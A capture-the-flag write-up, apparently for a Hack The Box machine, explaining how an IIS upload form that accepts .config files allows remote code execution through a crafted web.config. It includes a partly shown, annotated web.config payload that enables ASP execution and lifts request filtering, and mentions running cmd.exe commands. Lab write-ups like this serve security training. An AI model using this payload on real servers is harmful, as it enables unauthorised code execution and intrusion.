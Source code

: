 Let's take a look at transfer.aspx:
![transfer.aspx](screenshots/transferaspx.png)

## User Flag
This seems like a very simple form.  I have a feeling that any files uploaded here will be available in the uploadedfiles directory.  I started with a text file and I got an error message about invalid file type.  That means this application is whitelisting files either by extension, signature, or both.  Through trial and error, the following extensions worked: ```gif, png, jpg, doc, docx, xls, xlsx, jpeg, config```.  The image formats and Office documents make sense, but the file format stands out is config.  Files with a config extension are used by IIS 7 and later for storing IIS settings.  They are XML-based.  You can learn more about config files here [1].  web.config stores various configuration options for the web application like session state configuration, security configuration, and error handling settings.  It is similar to ```.htaccess``` if you are familiar with Apache.  After doing a little more digging, I found two sites <sup>[2],[3]</sup> that describe how you can achieve remote code execution using a specially crafted web.config file.

Using the code from [2] and [3], I came up with the following to read directories on the server.  I knew merlin was a user by running ```cmd.exe /c whoami``` in the ```wShell1.Exec``` line.  The reason you have to run ```cmd.exe /c``` is because dir is built into cmd.exe and not its own executable.  ```/a h``` tells dir to show hidden files, and ```/s``` tells dir to be recursive.  We will upload this file as web.config and access ```http://10.10.10.93/uploadedfiles/web.config```

I added some comments to this file so that you can see what is going on (ref [4], [5], [6]):
```xml 
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <!-- Allow web.config to read files, execute scripts, and write directories files -->
      <handlers accessPolicy="Read, Script, Write">
        <!-- Add a handler named web_config (name="web_config"):
             That applies to .config files (path="*.config")
             and all HTTP verbs like GET, POST, and HEAD (verb="*")
             Use the IsapiModule to handle .config files (modules="IsapiModule").  The ISAPI module handles ASP scripts and pages.
             Use asp.dll (scriptProcessor="%windir%\system32\inetsrv\asp.dll") to process scripts.  asp.dll handles classic ASP scripts.
             
             resourceType="Unspecified" lets us apply this mapping to a file name or extension that does not exist on disk
             requireAccess="Write" lets this handler write files (which we will need in order to execute files on the remote box)
             preCondition="bitness64" tells the handler that it should only run in 64-bit mode (in this case, our script processor is a 64-bit DLL on an x64 system, so we want to make sure the architectures match)
         -->
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <!-- Remove .config from file extensions that are denied -->
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <!-- Remove .config from file extensions that cannot be accessed -->
```

[1]: https://docs.microsoft.com/en-us/iis/get-started/planning-your-iis-architecture/the-configuration-system-in-iis-7 "The Configuration System in IIS 7"
[2]: https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/ "RCE by uploading a web.config - 003Random's Blog"
[3]: https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/ "Upload a web.config File for Fun & Profit - Soroush Dalili"
[4]: https://docs.microsoft.com/en-us/iis/configuration/system.webserver/handlers/ "Handlers <handlers> | Microsoft Docs"
[5]: https://docs.microsoft.com/en-us/iis/configuration/system.webserver/handlers/add "Adding Handlers <add> | Microsoft Docs"
[6]: https://msdn.microsoft.com/en-us/library/2wawkw1c(v=vs.100).aspx#Anchor_1 "Web Site File Types - MSDN"
[7]: https://stackoverflow.com/questions/10496675/download-files-from-url-using-classic-asp "StackOverflow - Download Files From URL Using Classic ASP"